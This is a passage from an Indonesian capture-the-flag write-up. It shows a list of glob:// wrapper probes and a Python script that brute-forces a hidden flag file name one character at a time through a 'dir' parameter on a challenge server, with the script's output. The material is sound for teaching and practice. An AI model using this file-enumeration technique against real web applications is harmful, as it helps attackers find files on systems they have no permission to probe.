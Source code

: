 ```sh
glob:///tmp/chall/flag3*

glob:///tmp/chall/flag4*

glob:///tmp/chall/flag5*

glob:///tmp/chall/flag6*

glob:///tmp/chall/flag7*

glob:///tmp/chall/flag8*

glob:///tmp/chall/flag9*
```
Wooottt terdapat respon `glob:///tmp/chall/flag1*` yang hasil responya menunjukan ukuran size dari file `flag` yaitu `39` byte. 

<a id="codespr1343"></a>

## Brute Force Debug 2

Mari Kita rapikan sedikit kodenya 
```python
import requests

karakter = "abcdefABCDEF0123456789"

clue = list("flag")

url = "http://ctf.iluv.my.id:9999/"

for brute in karakter:
		kirim = str("glob:///tmp/chall/" + "".join(clue) + brute + "*")

		noob = requests.get(
			url,
			params={
				"dir": kirim,
			},
		)
		
		if noob.text == "":
			continue
		else:
			print("Berhasil Mendapatkan karakter : " + brute)
			break
```
```sh
noob@codes:~$ python brute-debug2.py
Berhasil Mendapatkan karakter : 1
```
